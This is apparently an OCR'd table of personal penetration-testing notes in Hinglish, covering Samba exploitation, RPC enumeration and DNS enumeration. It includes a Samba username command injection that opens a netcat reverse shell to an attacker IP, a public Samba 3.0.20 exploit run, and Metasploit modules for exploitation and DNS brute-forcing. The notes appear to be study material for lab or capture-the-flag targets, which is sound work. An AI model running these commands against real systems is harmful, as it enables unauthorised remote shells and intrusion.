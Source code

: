 | logi hone ke baad  command use  | ls,get file.txt,logon "./=`nohup nc -e /bin/sh 192.168.0.103 4444`" |
| logon "./=`nohup nc -e /bin/sh 192.168.0.103 4444`" | ye reverce shell lene ke liye ip address attacker machine ka. |
| > nc -nlvp 4444   | complete  |
| Goto the google and search   : - Samba smbd 3.0.20-Debian exploit on github |  |
| $ nc -nlvp 5555 |  |
| python3 [smb3.0.20.py](http://smb3.0.20.py/) -lh 10.10.16.18 -lp 5555 -t 10.10.10.3  | 1 local hostip ,t- target port ip   ,ye execute krate hi reverse shell mil jayega. |
| RPC client |  |
| https://www.hackingarticles.in/active-directory-enumeration-rpcclient/ |  |
| rpcclient -U "%" 192.168.0.107 |  |
| command run ek ke baad ek  | command :-    srvinfo , querydominfo , enumdomusers , enumdomgroups |
| msfconsole |  |
| use auxiliary/scanner/smb/smb_version    |  |
| use exploit/multi/samba/usermap_script |  |
| —————————————————————— | —————————————————————————————————- |


| 7] DNS (53) |  |
| nmap 192.168.0.107 --script=dns-brute.nse -p 139,445 |  |
| nslookup <domain> OR nslookup <IP> |  |
| `nslookup -type=ns [domain-name]` |  |
| `nslookup` → `server <dns-ip>`    | Set specific DNS server to query |
| `nslookup` → `set type=MX` | Get mail exchange records |
| `nslookup` → `set type=NS` | Get name server records |
| `nslookup` → `set type=TXT` | Get TXT records (used in SPF, DKIM etc.) |
| `nslookup` → `set type=ANY` | Get all records (A, MX, NS, TXT etc.) |
| nslookup
> server 192.168.1.10
> set type=any |  |
| dig [domain.com](http://domain.com/) MX  | NS -namr server, |
| `dig domain.com ANY` | all |
| msfconsole |  |
| use auxiliary/gather/enum_dns | DNS enum, collects names, records, zones |
| use auxiliary/gather/dns_bruteforce | Bruteforce DNS subdomains |
| —————————————————————— | ————————————————————————————————— |
